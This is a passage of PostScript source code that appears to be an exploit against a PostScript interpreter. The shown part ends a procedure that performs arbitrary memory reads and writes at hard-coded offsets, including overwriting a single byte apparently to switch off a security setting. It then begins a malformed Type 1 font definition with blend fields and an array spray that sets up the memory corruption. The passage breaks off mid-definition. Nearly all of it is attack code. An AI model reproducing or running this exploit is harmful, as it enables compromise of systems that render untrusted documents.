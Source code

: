 ```postscript

    /ptr4 ptr3 8 ptradd def

    /buf3 8 string def
    ptr4 buf3 arbrd

    /buf4 buf3 512 ptradd def

    ptr3 buf4 arbwr

    /ptr5 ptr3 -8 ptradd def
    ptr5 <02504c0000000000> arbwr

    /ptr6 ptr3 16 ptradd def
    ptr6 <784b4c0000000000> arbwr

    /ptr7 ptr3 24 ptradd def
    /buf5 8 string def
    ptr3 749546 ptradd buf5 arbrd
    ptr7 buf5 arbwr

    /ptr8 ptr3 32 ptradd def
    /buf6 8 string def
    ptr3 749554 ptradd buf6 arbrd
    ptr8 buf6 19 ptradd arbwr

    /ptr9 ptr3 72 ptradd def
    ptr9 <01000000504b4c00> arbwr

    /ptr10 ptr3 80 ptradd def
    ptr10 buf5 42496 ptradd arbwr

    buf4 -190688 ptradd <01> arbwr

    (actually done) = flush

    quit
} def  % DONE

/MAIN {

/Myfont
<<
    /FontName /Myfont
    /FontType 1
    /FontMatrix [1 0 0 1 0 0]
    /Private << /lenIV -1 /Subrs [ <0E> ] >>
    /Decoding 0
    /Encoding [ /cs0 /cs1 /cs2 ]
    /CharStrings <<
        /.notdef <0E>
        /cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }
        /cs1 <0E>
        /cs2 { DONE }
    >>
    /WeightVector [1]
    /$Blend {}
    /FontInfo <<
        /BlendAxisTypes [ /foo ]
        /BlendDesignPositions [[1]]
        /BlendDesignMap [[[1]]]
        /GlyphNames2Unicode << >>
    >>
```